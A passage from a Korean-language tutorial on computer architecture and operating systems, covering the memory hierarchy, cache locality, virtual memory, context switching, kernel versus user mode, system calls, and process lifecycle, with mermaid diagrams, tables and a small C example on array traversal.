    A["CPU 레지스터 (Registers)<br>용량: 수백 Byte ~ 수 KB | 지연 시간: ~ 0.5 ns"]
    B["L1 캐시 메모리 (SRAM)<br>용량: 수십~수백 KB | 지연 시간: ~ 1 ns"]
    C["L2 캐시 메모리 (SRAM)<br>용량: 수백 KB ~ 수 MB | 지연 시간: ~ 4 ns"]
    D["L3 캐시 메모리 (SRAM)<br>용량: 수 MB ~ 수십 MB | 지연 시간: ~ 10-20 ns"]
    E["주기억장치 (DRAM / Main Memory)<br>용량: 16 GB ~ 128 GB | 지연 시간: ~ 60-100 ns"]
    F["초고속 보조기억장치 (NVMe PCIe SSD)<br>용량: 512 GB ~ 4 TB | 지연 시간: ~ 10-50 us"]
    G["일반 보조기억장치 (SATA SSD / HDD)<br>용량: 수 TB ~ 수십 TB | 지연 시간: ~ 0.1-10 ms"]
    H["원격 네트워크 / 클라우드 스토리지 (S3, NAS)<br>용량: 무제한 (PB급) | 지연 시간: ~ 수십~수백 ms"]

    A --- B
    B --- C
    C --- D
    D --- E
    E --- F
    F --- G
    G --- H
```

#### 인간의 체감 시간으로 환산한 저장장치 지연 시간 비교
컴퓨터의 1나노초(10⁻⁹초)는 인간에게 너무 찰나의 순간이라 감이 오지 않습니다. 만약 **CPU가 레지스터에 접근하는 시간(0.5ns)을 인간의 체감 시간 '1초'로 환산**한다면 세상은 어떻게 보일까요?

| 저장장치 종류 | 실제 지연 시간 (Latency) | 인간의 체감 시간 환산 (0.5ns = 1초) | 비유적 공간 거리 |
| :--- | :--- | :--- | :--- |
| **CPU 레지스터** | 0.5 ns | **1초** | 내 손안에 쥐고 있는 연필 |
| **L1 캐시** | 1 ~ 1.5 ns | **2 ~ 3초** | 책상 위에 놓인 책 |
| **L2 캐시** | 4 ~ 5 ns | **8 ~ 10초** | 방 안의 책꽂이 |
| **L3 캐시** | 15 ~ 20 ns | **30 ~ 40초** | 거실 서재 |
| **메인 메모리 (DRAM)**| 60 ~ 100 ns | **2분 ~ 3분 20초** | 아파트 1층 우편함까지 다녀오기 |
| **NVMe SSD** | 20 ~ 50 μs | **11시간 ~ 1.1일** | 다른 도시로 기차 타고 출장 다녀오기 |
| **전통적 HDD** | 5 ~ 10 ms | **3.8개월 ~ 7.6개월** | 지구 반대편으로 항해 다녀오기 |
| **원격 인터넷 왕복** | 100 ms | **6.3년** | 대학교 입학해서 학사/석사 졸업하기 |

이 표를 보면 CPU 입장에서 보조기억장치(SSD나 HDD)에서 데이터를 읽어오는 행위가 얼마나 고통스러울 정도로 긴 영겁의 세월인지 절감할 수 있습니다. 
컴퓨터는 이 계층 구조를 두고, **"자주 쓰는 소량의 데이터는 위쪽(캐시/레지스터)에 바짝 끌어다 두고, 거의 안 쓰는 방대한 데이터는 아래쪽(SSD/HDD)에 묻어두는 전략"**을 취함으로써, **"마치 컴퓨터 전체가 레지스터처럼 빠르면서도 SSD처럼 거대한 저장 공간을 가진 것처럼"** 작동하게 만듭니다.

---

## 04. 메모리는 왜 캐시 메모리, 메인 메모리, 가상 메모리로 나뉘어 사용되나요?

앞서 살펴본 저장장치 계층 구조가 마법처럼 성공할 수 있는 이유는 컴퓨터 프로그램의 실행 패턴에 기가 막힌 물리학적/통계학적 특성이 존재하기 때문입니다. 이를 **참조의 지역성(Principle of Locality)**이라고 부릅니다.

---

### 4.1 캐시 메모리와 참조의 지역성 (Locality of Reference)

CPU의 연산 속도는 무어의 법칙에 따라 수십 년간 수만 배 폭발적으로 증가했지만, DRAM(메인 메모리)의 속도는 그에 훨씬 미치지 못했습니다. 이 둘 사이의 성능 격차를 **메모리 장벽(Memory Wall)**이라고 부릅니다. CPU가 아무리 빨라도 메모리에서 데이터를 가져오느라 세월을 보낸다면 고성능 CPU는 무용지물이 됩니다.

이를 막기 위해 CPU 칩 내부에 SRAM으로 만든 **L1, L2, L3 캐시 메모리**를 심어둡니다.
캐시 메모리는 메인 메모리에서 앞으로 CPU가 사용할 것 같은 데이터를 미리 뭉텅이로 가져와 보관합니다. 캐시의 적중률(Hit Ratio)이 보통 90~95%를 넘어가는데, 이것이 가능한 비결이 바로 두 가지 지역성 원리입니다.

```mermaid
graph LR
    subgraph 시간_지역성 ["1. 시간 지역성 (Temporal Locality)"]
        direction TB
        T1["변수 int sum = 0;"] --> T2["for (...) { sum += i; }"]
        T2 --> T3["'방금 접근한 sum은 다음 루프에서 또 접근한다!'"]
    end

    subgraph 공간_지역성 ["2. 공간 지역성 (Spatial Locality)"]
        direction TB
        S1["배열 int arr[100];"] --> S2["arr[0] 읽기"]
        S2 --> S3["'arr[0]을 읽었으니 다음엔 arr[1], arr[2]를 읽을 것이다!'"]
    end
```

1. **시간 지역성 (Temporal Locality):**  
   한 번 참조된 메모리 영역은 **가까운 미래에 다시 참조될 가능성이 매우 높다**는 원리입니다.  
   - 예: `for` 루프에서 반복 횟수를 세는 변수 `i`, 누적 변수 `sum`, 빈번히 호출되는 유틸리티 함수 코드.
2. **공간 지역성 (Spatial Locality):**  
   어떤 메모리 위치가 참조되면, **그 인접한 주변 주소가 곧이어 참조될 가능성이 매우 높다**는 원리입니다.  
   - 예: 배열의 연속된 요소 순회, CPU가 순차적으로 실행하는 일련의 기계어 코드 라인들.  
   - CPU는 메모리에서 데이터를 가져올 때 달랑 1바이트만 가져오지 않고, **캐시 라인(Cache Line, 통상 64바이트)** 단위로 주변 데이터를 한꺼번에 통째로 긁어옵니다.

#### [실무 예시] 2차원 배열 순회: 지역성을 무시한 코드의 대참사
C나 C++, Java와 같은 언어는 2차원 배열을 메모리에 행 단위로 연속해서 배치하는 **행 우선(Row-Major)** 방식을 사용합니다. 다음 두 코드는 논리적으로 완벽히 동일한 연산을 수행하지만 실행 속도는 최대 수십 배 차이가 납니다.

```c
#define SIZE 10000
int arr[SIZE][SIZE];

// [코드 A] 행 우선 순회 (공간 지역성 극대화 -> 압도적으로 빠름)
for (int i = 0; i < SIZE; i++) {
    for (int j = 0; j < SIZE; j++) {
        arr[i][j] = 1; // 메모리에 연속된 주소를 차례로 방문하므로 캐시 히트(Cache Hit) 폭발
    }
}

// [코드 B] 열 우선 순회 (공간 지역성 파괴 -> 극도로 느림)
for (int j = 0; j < SIZE; j++) {
    for (int i = 0; i < SIZE; i++) {
        arr[i][j] = 1; // 한 번 쓸 때마다 메모리 주소를 수만 바이트씩 점프하므로 캐시 미스(Cache Miss) 연속 발생
    }
}
```
> [!TIP]
> 똑같은 `O(N²)` 알고리즘이라도 하드웨어 캐시 라인과 공간 지역성을 이해하고 짠 코드(A)와 그렇지 않은 코드(B)는 실무 빅데이터 및 대규모 연산에서 천양지차의 성능 차이를 만들어냅니다.

---

### 4.2 가상 메모리(Virtual Memory)와 페이징(Paging)

만약 8GB RAM이 장착된 컴퓨터에서 4GB짜리 포토샵, 3GB짜리 3D 게임, 3GB짜리 웹 브라우저를 동시에 띄우면 어떻게 될까요? 단순 합산하면 10GB이므로 메모리가 부족해 즉시 컴퓨터가 다운되어야 할 것 같지만, 실제로는 아무 문제 없이 모두 실행됩니다. 이것을 가능하게 해주는 운영체제의 기적이 바로 **가상 메모리(Virtual Memory)**입니다.

```mermaid
flowchart LR
    subgraph VM ["프로세스의 가상 메모리 (각 4GB / 128TB)"]
        VP0["페이지 0"]
        VP1["페이지 1"]
        VP2["페이지 2 (미사용)"]
        VP3["페이지 3"]
    end

    subgraph MMU_PT ["MMU & 페이지 테이블 (Page Table)"]
        PT["매핑 변환: 가상 주소 -> 물리 주소"]
    end

    subgraph PM ["실제 물리 RAM (8GB)"]
        PF10["프레임 10"]
        PF42["프레임 42"]
        PF99["프레임 99"]
    end

    subgraph DISK ["스왑 영역 (SSD / HDD)"]
        SWP["스왑 아웃된 페이지 3"]
    end

    VP0 --> PT --> PF10
    VP1 --> PT --> PF42
    VP3 --> PT -.->|페이지 폴트 발생 시 적재| SWP
```

#### 가상 메모리가 해결한 3대 난제
1. **메모리 용량의 한계 극복:** 물리 RAM보다 훨씬 큰 프로그램도 실행할 수 있습니다.
2. **프로세스 격리와 메모리 보호:** 각 프로세스는 "내가 컴퓨터의 0번지부터 끝 번지까지 모든 메모리를 독점하고 있다"는 환상적인 **독립 가상 주소 공간(Logical Address Space)**을 부여받습니다. 따라서 악성 프로그램이나 버그가 있는 프로그램이 다른 프로그램의 메모리 번지를 엿보거나 덮어쓰는 사고가 원천 차단됩니다.
3. **불연속 메모리 할당 (외부 단편화 해결):** 물리 메모리의 빈 조각들이 여기저기 흩어져 있어도, 가상 주소에서는 깔끔하게 연속된 하나의 공간처럼 이어 붙여 쓸 수 있습니다.

#### 페이징(Paging)과 페이지 폴트(Page Fault)
- **페이징 기법:** 운영체제는 가상 메모리를 일정한 고정 크기 블록으로 쪼개는데 이를 **페이지(Page, 일반적으로 4KB)**라고 부릅니다. 그리고 물리 RAM 역시 정확히 똑같은 4KB 크기로 쪼개며 이를 **프레임(Frame)**이라고 부릅니다.
- **페이지 테이블(Page Table):** 가상 주소의 몇 번 페이지가 실제 물리 RAM의 몇 번 프레임에 들어가 있는지를 1:1로 기록해 둔 지도입니다.
- **페이지 폴트 (Page Fault):**  
  프로그램 전체가 항상 RAM에 올라와 있을 필요는 없습니다. 지금 당장 쓰지 않는 기능(예: 포토샵의 인쇄 다이얼로그 코드)은 SSD의 스왑(Swap) 영역에 그대로 둡니다.  
  프로그램이 실행되다가 RAM에 없는 페이지를 요구하면 CPU에 **페이지 폴트(Page Fault)**라는 하드웨어 예외 인터럽트가 발생합니다. 운영체제는 즉시 개입하여 SSD에서 해당 페이지를 읽어 빈 RAM 프레임에 적재하고, 페이지 테이블을 갱신한 뒤 프로그램을 정상 재개시킵니다.

---

### 4.3 하드웨어의 초고속 조력자: MMU와 TLB

가상 주소를 물리 주소로 바꾸는 일은 프로그램이 메모리에 접근할 때마다, 즉 **초당 수십억 번** 일어나야 합니다. 이를 소프트웨어(운영체제 코드)가 일일이 계산하고 있다면 컴퓨터는 굼벵이처럼 느려질 것입니다.

- **MMU (Memory Management Unit):**  
  CPU 칩 내부에 내장된 하드웨어 장치로, CPU가 내뱉는 가상 주소를 물리 주소로 실시간 하드웨어 변환합니다.
- **TLB (Translation Lookaside Buffer):**  
  MMU가 가상 주소를 물리 주소로 바꾸려면 메모리에 있는 페이지 테이블을 매번 뒤져봐야 합니다. 결국 "메모리를 한 번 읽으려고 메모리를 두 번 방문하는" 병목이 생깁니다.  
  이를 방지하기 위해 **페이지 변환 주소 자체를 캐싱해 두는 초고속 특수 하드웨어 캐시**가 바로 **TLB**입니다.
  - **TLB Hit:** TLB에 매핑 정보가 있으면 즉시 1클록 만에 물리 주소 획득.
  - **TLB Miss:** TLB에 없으면 실제 메모리의 페이지 테이블을 탐색(Page Table Walk)하여 주소를 변환하고 TLB를 갱신.

---

## 05. 여러 프로그램이 동시에 실행되는 원리는 무엇인가요?

우리는 음악을 들으면서 웹 서핑을 하고, 백그라운드에서는 대용량 파일을 다운로드받으며, 메신저로 친구와 대화를 나눕니다. 컴퓨터 안에서는 도대체 어떤 마술이 일어나고 있기에 이 모든 일들이 동시에 일어나는 것일까요?

---

### 5.1 동시성(Concurrency) vs 병렬성(Parallelism)

기술 면접과 아키텍처 설계에서 가장 빈번하게 혼동되는 두 개념을 명확하게 분리해야 합니다.

```
[동시성 (Concurrency)] - 싱글 코어의 시분할
코어 1: [ 작업 A ]─>[ 작업 B ]─>[ 작업 A ]─>[ 작업 C ]─>[ 작업 B ]
(인간의 눈에는 동시에 돌아가는 것처럼 보임)

[병렬성 (Parallelism)] - 멀티 코어의 물리적 동시 처리
코어 1: [ 작업 A 계속 실행 중 ............................ ]
코어 2: [ 작업 B 계속 실행 중 ............................ ]
(물리적으로 같은 찰나의 순간에 두 작업이 함께 돌아감)
```

| 구분 | 동시성 (Concurrency) | 병렬성 (Parallelism) |
| :--- | :--- | :--- |
| **핵심 개념** | 여러 작업이 **동시에 진행되는 것처럼 다루는 논리적 구조** | 여러 작업이 **동일한 순간에 실제로 동시에 실행되는 물리적 현상** |
| **하드웨어 요구**| **단일 코어(Single Core)**에서도 시분할을 통해 완벽히 달성 가능 | **반드시 멀티 코어(Multi-Core)나 멀티 프로세서**가 필요함 |
| **주요 목적** | CPU 유휴 시간을 줄이고 응답성(Responsiveness)을 극대화 | 대규모 연산 처리를 나누어 처리 시간(Throughput)을 단축 |
| **비유** | 한 명의 바리스타가 주문받고, 원두 갈고, 우유 스팀을 재빠르게 번갈아 처리 | 두 명의 바리스타가 각자 커피 머신 한 대씩 잡고 동시에 추출 |

---

### 5.2 시분할(Time-Sharing)과 타이머 인터럽트

단일 코어가 동시성을 구현하는 비결은 **시분할(Time-sharing)** 시스템에 있습니다. 운영체제는 1초를 수백 조각으로 쪼개어(예: 10ms 단위의 타임 슬라이스) 프로그램 A, B, C에 번갈아 CPU를 넘겨줍니다.

여기서 아주 중요한 질문이 생깁니다.  
*"만약 어떤 프로그램이 악의적이거나 버그로 인해 `while(true) {}` 같은 무한 루프에 빠져 CPU를 자발적으로 반납하지 않는다면, 운영체제는 어떻게 제어권을 강제로 빼앗아 올 수 있을까요?"*

그 비결이 바로 하드웨어가 제공하는 **타이머 인터럽트(Timer Interrupt)**입니다.
1. 메인보드에는 일정한 주기(클록)마다 전기적 펄스를 발생시키는 하드웨어 타이머 칩이 장착되어 있습니다.
2. 타임 슬라이스(예: 10ms)가 만료되면 타이머 칩이 CPU의 인터럽트 라인에 전기 신호를 쏩니다.
3. CPU는 실행 중이던 사용자 프로그램의 명령어를 즉시 중단하고, 하드웨어적으로 **인터럽트 서비스 루틴(ISR)**, 즉 운영체제의 스케줄러 코드로 강제 점프합니다.
4. 운영체제는 "너 시간 다 썼어"라며 CPU 제어권을 회수하고 다음 대기 프로그램에 넘겨줍니다. 이 하드웨어 타이머 덕분에 어떤 프로그램도 컴퓨터 전체를 독점하여 멈추게 할 수 없습니다.

---

### 5.3 컨텍스트 스위칭(Context Switching)과 PCB

CPU가 실행 중이던 프로세스 A를 멈추고 프로세스 B로 전환하는 일련의 과정을 **컨텍스트 스위칭(Context Switching, 문맥 교환)**이라고 부릅니다.

여기서 **컨텍스트(Context, 문맥)**란, 프로세스가 다음번에 다시 CPU를 잡았을 때 아무 일도 없었던 것처럼 정확히 이어서 실행하기 위해 필요한 **CPU의 모든 상태 정보(PC 값, 각종 레지스터에 들어있던 연산 중간값, 스택 포인터 등)**를 의미합니다.

```mermaid
sequenceDiagram
    autonumber
    participant P1 as 프로세스 1 (실행 중)
    participant OS as 운영체제 커널 (스케줄러)
    participant P2 as 프로세스 2 (대기 중)

    Note over P1: 사용자 모드 연산 수행 중
    Note over P1,OS: 타이머 인터럽트 발생!
    P1->>OS: CPU 제어권이 커널로 강제 전환
    Note over OS: 1. P1의 CPU 레지스터 상태를 P1-PCB에 저장
    Note over OS: 2. P1의 상태를 Running -> Ready로 변경
    Note over OS: 3. 스케줄러가 다음 실행할 P2 선택
    Note over OS: 4. P2-PCB로부터 예전 레지스터 상태 복원
    Note over OS: 5. MMU 페이지 테이블 포인터(CR3)를 P2로 교체
    OS->>P2: P2의 PC 주소로 점프하여 실행 재개
    Note over P2: 사용자 모드에서 P2 실행 시작!
```

#### PCB (Process Control Block, 프로세스 제어 블록)
운영체제가 프로세스를 관리하기 위해 커널 메모리 영역에 생성하는 일종의 '프로세스 신분증'입니다.
- **PID (Process ID):** 프로세스 고유 식별 번호
- **프로세스 상태:** 생성(New), 준비(Ready), 실행(Running), 대기(Blocked), 종료(Terminated)
- **PC (Program Counter):** 다음에 실행할 명령어 주소
- **CPU 레지스터 복사본:** 직전까지 레지스터에 들어있던 값들
- **메모리 관리 정보:** 페이지 테이블 베이스 주소(CR3 레지스터 값)
- **할당된 자원 목록:** 열려 있는 파일 디스크립터(File Descriptors), 소켓 정보 등

#### 컨텍스트 스위칭의 숨은 비용 (Overhead)
컨텍스트 스위칭은 마법 같지만 공짜가 아닙니다. 너무 자주 일어나면 배보다 배꼽이 더 커집니다.
1. **순수 CPU 클록 낭비:** 레지스터를 메모리(PCB)에 덤프하고 다시 읽어오는 동안에는 순수한 사용자 프로그램 연산이 완전히 멈춥니다.
2. **캐시 플러시와 캐시 오염 (Cache Invalidation / Pollution):**  
   프로세스 A가 쓰던 따끈따끈한 데이터로 가득 차 있던 L1/L2 캐시 메모리가, 프로세스 B가 들어오는 순간 전부 쓸모없는 쓰레기가 됩니다. 프로세스 B는 실행 초기 필연적으로 수많은 캐시 미스를 겪으며 느리게 동작해야 합니다.
3. **TLB 플러시:** 가상 주소 체계가 프로세스마다 완전히 다르므로, 페이지 테이블 베이스 레지스터를 바꾸는 순간 기존 TLB 캐시를 싹 비워야(Flush) 합니다.

---

## 06. 운영체제는 무슨 일을 하나요?

운영체제(Operating System)는 컴퓨터라는 복잡한 하드웨어 왕국의 **최고 자원 관리자(Resource Manager)**이자, 소프트웨어 개발자들에게 복잡한 하드웨어를 감추고 표준화된 인터페이스를 제공하는 **가상 머신(Virtual Machine 추상화자)**입니다.

```mermaid
mindmap
  root((운영체제의<br>5대 핵심 기능))
    프로세스 & 스레드 관리
      CPU 스케줄링 (FCFS, RR, 우선순위)
      동기화 및 IPC 통신
      프로세스 생성/소멸 관리
    메모리 관리
      가상 메모리 및 페이징 기법
      물리 RAM 할당 및 회수
      페이지 교체 알고리즘 (LRU, Clock)
    파일 시스템 관리
      디렉토리 계층 구조 추상화
      파일 읽기/쓰기/권한 제어
      디스크 블록 할당 및 저널링
    입출력 (I/O) 장치 관리
      장치 드라이버 표준화
      버퍼링, 캐싱, 스풀링
      인터럽트 처리 및 DMA 제어
    보안 및 인터페이스 제공
      이중 모드 보호 (커널/사용자)
      사용자 인증 및 접근 제어
      CLI (Shell) 및 GUI 제공
```

---

### 6.1 프로세스 및 스레드 관리 (CPU 자원 분배)
- 수많은 프로그램이 한정된 CPU를 공평하고 효율적으로 나누어 쓸 수 있도록 스케줄링 알고리즘(Round Robin, Multi-level Feedback Queue 등)을 실행합니다.
- 프로세스의 생성부터 종료까지의 생명 주기를 통제하고, 뒤에서 다룰 프로세스 간 통신(IPC)과 동기화 도구를 제공합니다.

### 6.2 메모리 관리 (RAM 공간 분배)
- 어떤 프로세스에게 RAM의 어느 공간을 내어줄지 동적으로 할당하고, 프로세스가 종료되면 즉시 회수합니다.
- 앞서 배운 페이징 기법과 가상 메모리를 총괄하며, 물리 메모리가 꽉 찼을 때 어떤 페이지를 디스크로 쫓아낼지 결정하는 **페이지 교체 알고리즘(LRU, LFU, Clock 등)**을 가동합니다.

### 6.3 파일 시스템 관리 (데이터의 추상화)
- 보조기억장치는 사실 수십억 개의 섹터(Sector)와 블록(Block)에 불과한 0과 1의 연속된 연속체입니다.
- 운영체제는 이 삭막한 하드웨어 블록 위에 **디렉토리(폴더)와 파일**이라는 인간 친화적인 트리(Tree) 구조를 구축해 줍니다.
- 파일의 생성, 삭제, 이름 변경, 읽기/쓰기 권한(Permission)을 통제하며, 시스템이 급작스럽게 꺼져도 파일이 깨지지 않도록 변경 이력을 먼저 기록하는 **저널링(Journaling)** 기법을 수행합니다.

### 6.4 입출력(I/O) 장치 관리 (장치 독립성 제공)
- 세상에는 수천 가지 제조사의 마우스, 키보드, 그래픽카드, 프린터가 존재하며 저마다 제어하는 전기 신호 규격이 제각각입니다.
- 운영체제는 하드웨어 제조사가 제공하는 **장치 드라이버(Device Driver)**를 운영체제 표준 입출력 서브시스템에 등록시킵니다.
- 개발자는 하드웨어가 로지텍 마우스든 삼성 마우스든 상관없이, 운영체제가 제공하는 표준 API(`read()`, `write()`)를 통해 일관된 방식으로 장치를 다룰 수 있는 **장치 독립성(Device Independence)**을 누립니다.
- CPU의 개입 없이 I/O 장치와 메모리가 대용량 데이터를 직접 고속으로 주고받을 수 있도록 **DMA(Direct Memory Access, 직접 메모리 접근)** 컨트롤러를 제어합니다.

### 6.5 시스템 보호 및 사용자 인터페이스
- 악의적인 프로그램이 다른 프로그램이나 시스템 전체를 파괴하지 못하도록 접근 권한을 감시합니다.
- 인간 사용자가 명령을 내릴 수 있도록 터미널 기반의 **CLI(Shell)**나 마우스/터치 기반의 **GUI(Desktop Environment)**를 제공합니다.

---

## 07. 커널(Kernel)이란 무엇인가요?

운영체제를 설치하면 수많은 유틸리티 프로그램(텍스트 편집기, 파일 탐색기, 계산기, 제어판)이 함께 깔립니다. 하지만 이 모든 것들이 운영체제의 알맹이는 아닙니다. 운영체제에서 껍데기(Shell, GUI 앱)를 모두 벗겨내고 남은 **가장 핵심적인 심장부 코드 덩어리**를 우리는 **커널(Kernel, 알맹이라는 뜻)**이라고 부릅니다.

커널은 컴퓨터가 부팅될 때 메모리에 가장 먼저 적재되어, 전원이 꺼지는 순간까지 **항상 RAM에 상주(Resident)**하며 하드웨어를 직접 지배합니다.

```
+-------------------------------------------------------------+
|                사용자 애플리케이션 (Chrome, Word, Game)       |
+-------------------------------------------------------------+
|    표준 C 라이브러리 (libc) / 시스템 콜 래퍼 API              |  사용자 모드 (Ring 3)
======================= [ 시스템 콜 (System Call) ] =============
|                   운영체제 커널 (Kernel)                     |
|  - 프로세스 스케줄러   - 가상 메모리 관리자                  |  커널 모드 (Ring 0)
|  - 파일 시스템 드라이버 - 네트워크 프로토콜 스택             |
+-------------------------------------------------------------+
|                  하드웨어 (CPU, RAM, SSD, NIC)               |
+-------------------------------------------------------------+
```

---

### 7.1 커널 모드(Kernel Mode) vs 사용자 모드(User Mode): 이중 모드 보호 메커니즘

만약 초보 개발자가 만든 버그투성이 C 프로그램이 실수로 포인터 연산을 잘못해서 운영체제의 페이지 테이블 주소를 건드리거나, 하드디스크의 0번 섹터(부팅 영역)를 마음대로 포맷해 버릴 수 있다면 어떻게 될까요? 컴퓨터는 하루에도 수십 번씩 파란 화면(BSOD)을 띄우며 뻗어버릴 것입니다.

이런 재앙을 하드웨어 차원에서 원천 봉쇄하기 위해 CPU 제조사(Intel, ARM 등)는 **CPU 하드웨어 레벨에서 특권 수준을 분리하는 이중 모드(Dual-Mode)**를 제공합니다. (x86 아키텍처에서는 이를 Ring 0 ~ Ring 3의 보호 링(Protection Ring) 구조로 부릅니다.)

```mermaid
stateDiagram-v2
    direction LR
    state "사용자 모드 (User Mode / Ring 3)" as UM {
        [*] --> 일반_앱_실행
        일반_앱_실행 : - 하드웨어 직접 접근 금지
        일반_앱_실행 : - 제한된 가상 메모리만 접근
        일반_앱_실행 : - 특권 명령어 실행 불가
    }

    state "커널 모드 (Kernel Mode / Ring 0)" as KM {
        커널_코드_실행 : - 모든 CPU 명령어(특권 명령어) 실행 가능
        커널_코드_실행 : - 물리 메모리 전체 및 모든 하드웨어 장치 직접 제어
    }

    일반_앱_실행 --> 커널_코드_실행 : 시스템 콜 (syscall) / 인터럽트 발생<br>(모드 비트 1 -> 0 전환)
    커널_코드_실행 --> 일반_앱_실행 : 작업 완료 후 복귀 (sysret)<br>(모드 비트 0 -> 1 전환)
```

- **모드 비트 (Mode Bit):** CPU 내부 레지스터에 존재하는 플래그 비트입니다.
  - **사용자 모드 (Mode Bit = 1):** 일반 응용 프로그램이 실행되는 모드입니다. 하드웨어를 직접 건드리는 특권 명령어(I/O 포트 제어, 인터럽트 금지, MMU 레지스터 조작 등)를 실행하려 하면 CPU 하드웨어가 즉시 **일반 보호 오류(General Protection Fault)** 예외를 발생시키고 해당 프로그램을 강제 종료(Kill)시킵니다.
  - **커널 모드 (Mode Bit = 0):** 운영체제 커널 코드가 실행되는 최고 권한의 모드입니다. CPU의 모든 기계어 명령어를 제약 없이 실행할 수 있고, 물리 메모리의 모든 번지에 접근할 수 있습니다.

---

### 7.2 시스템 콜(System Call): 안전한 관공서 창구

그렇다면 사용자 모드에서 실행되는 우리의 웹 브라우저는 어떻게 하드디스크에 파일을 다운로드하고, 화면에 그래픽을 띄우며, 네트워크 카드(NIC)로 패킷을 쏠 수 있을까요?

사용자 프로그램은 하드웨어를 직접 건드릴 수 없으므로, **"원하는 작업을 대신 수행해 달라고 운영체제 커널에게 정중하게 부탁"**해야 합니다. 이 공식적인 요청 창구를 **시스템 콜(System Call)**이라고 부릅니다.

> **관공서 비유:**  
> 일반 시민(사용자 프로그램)이 주민등록등본을 발급받기 위해 국가 전산망 데이터베이스 서버실(하드웨어)에 직접 문을 따고 들어갈 수는 없습니다. 대신 관공서 민원 창구(시스템 콜 인터페이스)에 가서 서류를 작성하여 제출하면, 공무원(커널)이 신분증을 확인하고 적법한 권한이 있는지 심사한 뒤 대신 출력해서 건네줍니다.

#### 시스템 콜의 구체적 동작 흐름

우리가 C 언어로 `printf("Hello World");`를 호출하거나 Python으로 `file.write()`를 호출할 때 일어나는 내부 메커니즘을 시퀀스로 살펴보겠습니다.

```mermaid
sequenceDiagram
    autonumber
    participant App as 사용자 프로그램
    participant Lib as 표준 C 라이브러리 (libc)
    participant CPU as CPU 하드웨어
    participant Kernel as 커널 (System Call Handler)

    App->>Lib: 1. printf("Hello World") 함수 호출
    Note over Lib: 2. 내부적으로 write() 시스템 콜 래퍼 호출
    Note over Lib: 3. RAX 레지스터에 시스템 콜 번호(SYS_write = 1) 적재
    Note over Lib: 4. RDI, RSI 레지스터에 인자(stdout, 문자열 주소, 길이) 적재
    Lib->>CPU: 5. 특수 기계어 명령어 'syscall' (또는 int 0x80) 실행
    Note over CPU: 6. 하드웨어가 사용자 모드(Ring 3) -> 커널 모드(Ring 0) 전환!
    Note over CPU: 7. 스택을 사용자 스택에서 커널 스택으로 교체
    CPU->>Kernel: 8. 사전에 등록된 시스템 콜 엔트리 포인트(ISR)로 점프
    Note over Kernel: 9. 시스템 콜 테이블(sys_call_table)에서 1번 함수(sys_write) 조회
    Note over Kernel: 10. 인자 유효성 검증 후 터미널 콘솔 드라이버를 통해 화면 출력
    Kernel->>CPU: 11. 결과값(출력된 바이트 수)을 RAX에 넣고 'sysret' 명령 실행
    Note over CPU: 12. 하드웨어가 커널 모드(Ring 0) -> 사용자 모드(Ring 3) 복귀!
    CPU->>App: 13. printf 호출이 성공적으로 리턴되고 다음 코드 실행
```

이처럼 하드웨어 이중 모드와 시스템 콜이라는 강력한 관문 덕분에, 현대의 컴퓨터는 수많은 검증되지 않은 프로그램들이 돌아가는 상황에서도 전체 시스템의 안정성과 보안을 철통같이 유지할 수 있습니다.

---

## 08. 프로그램, 프로세스, 프로세서의 차이가 무엇인가요?

이 세 단어는 발음과 철자가 매우 비슷하여 컴퓨터 공학 입문자들을 가장 곤혹스럽게 만드는 용어 삼총사입니다. 하지만 이들의 물리적 실체는 완전히 다릅니다.

```
[프로세서 (Processor)]  ───(실행)───>  [프로세스 (Process)]  <───(적재)───  [프로그램 (Program)]
   (물리적 CPU 칩)                  (메모리의 동적 인스턴스)              (저장장치의 정적 바이너리)
      "요리사"                               "요리 중인 요리"                         "레시피 책"
```

| 구분 | 물리적 형태 / 위치 | 상태 | 비유 |
| :--- | :--- | :--- | :--- |
| **프로그램 (Program)** | 보조기억장치 (SSD / HDD)에 저장된 실행 파일 (`.exe`, ELF 바이너리) | **정적(Static)인 상태**<br>(아직 실행되지 않고 잠들어 있는 코드와 데이터 덩어리) | 백종원의 **요리 레시피 책** |
| **프로세스 (Process)** | 메인 메모리(RAM)에 올라와 CPU와 메모리를 할당받은 **실행 인스턴스** | **동적(Dynamic)인 상태**<br>(생명 주기를 가지며 실시간으로 상태가 변하는 개체) | 레시피를 보고 **실제 주방에서 끓고 있는 요리** |
| **프로세서 (Processor)**| 메인보드 소켓에 꽂혀 있는 **물리적 연산 장치 (CPU 칩 / 코어)** | **하드웨어(Hardware)**<br>(기계어 명령어를 인출하고 실행하는 주체) | 주방에서 칼을 쥐고 요리를 만드는 **요리사** |

---

### 8.1 프로그램이 프로세스로 태어나는 과정 (Loading)

더블 클릭을 통해 SSD에 저장된 `chrome.exe` 프로그램을 실행하면 다음과 같은 운영체제 로더(Loader)의 작업이 순식간에 진행됩니다.

1. **바이너리 파일 분석:** OS 로더가 실행 파일의 헤더(PE 포맷 또는 ELF 포맷)를 읽어 코드의 크기, 데이터의 크기, 필요한 동적 라이브러리(DLL / `.so`) 목록을 확인합니다.
2. **가상 메모리 주소 공간 확보:** 운영체제가 이 프로세스만을 위한 독립된 4GB(32비트) 또는 수백 TB(64비트)의 가상 주소 공간을 만듭니다.
3. **메모리 적재 (Mapping):** 실행 파일의 기계어 코드를 가상 메모리의 Code 영역에, 전역 변수를 Data 영역에 매핑합니다.
4. **스택 및 힙 초기화:** 런타임에 사용할 스택(Stack)과 힙(Heap) 메모리 공간을 세팅합니다.
5. **PCB 생성 및 등록:** 운영체제 커널이 이 프로세스를 관리하기 위한 신분증인 **PCB(Process Control Block)**를 커널 메모리에 생성하고 고유 PID를 부여한 뒤, CPU 실행 대기열인 **Ready Queue**에 등록합니다.
6. **실행 시작:** CPU 스케줄러가 이 프로세스를 선택하면 `main()` 함수의 첫 번째 명령어 주소를 CPU의 PC(Program Counter) 레지스터에 로드함으로써 마침내 살아 숨 쉬는 '프로세스'가 됩니다.

---

### 8.2 프로세스의 생명 주기와 상태 전이 (Process Life Cycle)

프로세스는 생성되어 소멸할 때까지 운영체제의 엄격한 통제 아래 여러 상태를 오가게 됩니다.

```mermaid
stateDiagram-v2
    [*] --> New : 1. 프로그램 실행 요청
    New --> Ready : 2. OS가 승인하여 PCB 생성 및 메모리 준비 완료
    
    Ready --> Running : 3. 스케줄러 디스패치 (CPU 할당)
    Running --> Ready : 4. 타임 아웃 (할당 시간 만료 / 선점)
    
    Running --> Waiting : 5. I/O 요청 (디스크 읽기, 네트워크 대기 등)
    Waiting --> Ready : 6. I/O 완료 인터럽트 발생 (깨어남)
    
    Running --> Terminated : 7. 작업 완료 (exit) 또는 강제 종료
